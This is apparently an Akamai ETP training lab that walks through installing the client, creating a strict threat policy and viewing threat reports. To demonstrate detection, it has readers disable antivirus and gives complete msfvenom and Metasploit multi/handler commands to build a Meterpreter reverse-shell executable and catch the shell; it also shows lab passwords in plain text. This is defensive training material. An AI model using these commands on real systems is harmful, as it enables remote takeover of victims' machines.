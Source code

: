 # Module 1

!!! note
    The Windows Virus & Threat Protection settings is **TURNED OFF** for this lab due to Metasploit generating a infected payload file. Without these settings disabled, the payload file will be automatically removed from the device.

### Exercise 1.1 - Installing ETP Client for Windows Device

1. Access the [Akamai Control Center](https://control.akamai.com/apps/auth/?TARGET_URL=Y29udHJvbC5ha2FtYWkuY29tL2FwcHMvenQtdWkv#/login) and log in with the below credentials

!!! note
    Two-Factor Authencation is required upon logging in, so navigate to the Authencation app via the Windows Desktop and get the verification code

2. Once logged in, click the ![ThreeLines](media/3lines.png) icon in the top left and click **Enterprise Center**

3. Navigate to the **three** icons on the left hand side, hover and select **Threat Protection -> Client & Connectors -> ETP Clients** and make sure **Enable ETP Client** is active

4. Click **Version Management**, hover over the latest Windows version and select the last icon on the right hand side to download the ETP Client

![VM](media/versionmanagement.png)

5. Click the .msi file at the bottom of the browser to intiate the installtion

!!! note
    If prompted for password, enter **Go2atc4labs!**

6. The ETP Client will require a code to become activated. You can find this code by clicking the **Configuration** tab and copy & pasting the **Entitlement Code** into the ETP Client field. Once pasted, click Activate.

![Activate](media/activate.png)

7. Give it a few seconds and your device should show as being protected

### Exercise 1.2 Creating a policy

1. On the left hand side, hover over the last icon (**Threat Protection**) and select **Policies**

2. On the right hand side, click the ![Circle-Line](media/circle-plus.png) icon to add a new policy

![Create Policy](media/createpolicy.png)

3. In the **Name** field, call this policy **Metasploit EDR Policy**

!!! note
    Description can be left blank for the sake of this lab

4. For **Policy Type** seect **DNS+Proxy**

5. For **Security Template**, click the **Strict** option.

!!! note
    Choosing the **Strict** template allows for strict policy actions to block threats from your network including:
    - All known threat categories are assigned the block policy action
    - For known and suspected DNS exfiltration threats, a refused response is configured
    - A monitor action is assigned to the suspected malware and phishing threat
    - Alerts are enabled

6. Click **Continue**

![Policy Selection](media/policy-selection.png)

7. Click **Threat** and under the **Alert** table, make sure **Malware** and **Phising** are enabled for **Threat Type** and **Suspected Type**

8. Click **Save & Deploy**

![Policy Deploy](media/policydeploy.png)

9. Click **Deploy** again

### Exercise 1.3 - Attacking the Endpoint & Remediation

#### The Attack 
Our goal is to compromise the Win10 Jumpbox workstation to gain access to the machine through a Kali Linux terminal. We will be using Metasploit to gain access to the Windows machine. Metasploit is a popular penetration testing framework used to conduct active exploitation against a remote host. 

#### **Initial Access - Exploitation with Metasploit** 

<!-- **Overview** Let's start by gaining initial access to the Windows client from our attacker machine, Kali Linux. We will be setting up a reverse shell environment using the /reverse_tcp payload module with meterpreter. Meterpreter is an advanced, extensible payload that uses in-memory DDL injection stagers. It communicates over the stager socket and provides a comprehensive client-side API with features such as tab completion and commmand history. Meterpreter allows a user to gain access to a shell (or Windows CMD) and perform actions inside the computer. To compromise the host, we will simulate a "malicious" executable with our local web server setup. This will allow us to transfer our payload over to the victim machine -->

1. At the bottom taskbar, right click the Kali Linux icon and run as Admin. Do the same for the Command Prompt icon
!!! note
    When opening the Command Prompt Session, type in **bash** and make sure the directory it is currently in is **/mnt/c/Users/labuser**

2. In the Kali Linux window, type in **msfconsole**
!!! note   
    This will take a while to load

3. In the Command Prompt window, type in **ifconfig eth0** to obtain the IP Address of the Jumpbox. We will need it to launch the attack

4. In the Command Prompt window, type in **sudo msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows -f exe LHOST=192.168.2.2 LPORT=4444 -o /mnt/c/Users/labuser/something32.exe**. This will create an infected .exe file that willl serve as a payload for the Windows 10 machine.

![Bash](media/bash_setup.png)

!!! note
    This will also take a while to load. If prompted for password, input **WWTwwt1!**

5. Click the **Kali Linux** icon on the Windows startbar and type **msfconsole** to launch the Metasploit Console. Once Metasploit is launched on the Kali Linux window, type the following:

**use multi/handler** *This is the general payload handler

**set payload windows/meterpreter/reverse_tcp** *This will configure the payload to match what's inside the infected executable

**set LHOST 192.168.2.2**  *This sets the IP as the listening host

**set LPORT 4444** *This sets the listening port

**exploit** *runs the exploit

![Metasploit](media/metasploit.png)

6. Go locate the executable file **something32** (C:\Users\labuser), double click the executable and monitor the Kali Linux window. As you can see, the file causes the payload to run and creates a connection to the attack machine. We then get a Meterpreter session on Kali Linux.

![Payload](media/something32.png)

![Exploit Assign](media/exploit.png)
    
!!! note
    For the sake of brevity, this lab not explore into Meterpreter, but there are various commands availiable that can be used to gather more information from the vulnerable machine
    

#### Remediation

7. Go back into the Akamai Enterprise Center. On the left hand side, click **Threat Protection->Reports->Threat Events** and from this view, you should be able to see Threat tables for **Category, Reason, Severity, Location, and Policy**
